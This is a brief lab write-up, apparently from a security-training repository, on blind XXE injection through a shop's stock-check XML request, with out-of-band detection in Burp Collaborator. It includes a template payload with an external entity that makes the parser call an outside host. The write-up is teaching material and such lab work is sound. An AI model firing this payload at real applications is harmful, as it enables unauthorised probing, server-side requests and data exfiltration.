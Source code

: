 *This information is only for the purposes of education and skills development.*

**Objective**
Observe DNS lookup and HTTP requests from XML parser in Collaborator. 

**Blind XXE**
- XML External Entity Injection or XXE injection vulnerability allows attacker to interfere with an application's processing of external data that is in XML format. 
- In blind XXE, no values associated with external entities are returned in response.

**Point of Entry**
- On any product page, the *Check Stock* function issues a POST request.
- That request includes stockCheck element which handles XML, which is our point of entry.

**Barrier to entry** 
- As no XML is present in response, XML parsing is considered out-of-band meaning that a separate channel of communication is in use.

**Bypassing Barrier to Entry**
- Out-of-band communication can be viewed using Collaborator. 
- Start intercept and check stock to issue the POST request. Add the payload between XML declaration and `stockCheck` element.

**Template Payload**
`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

`


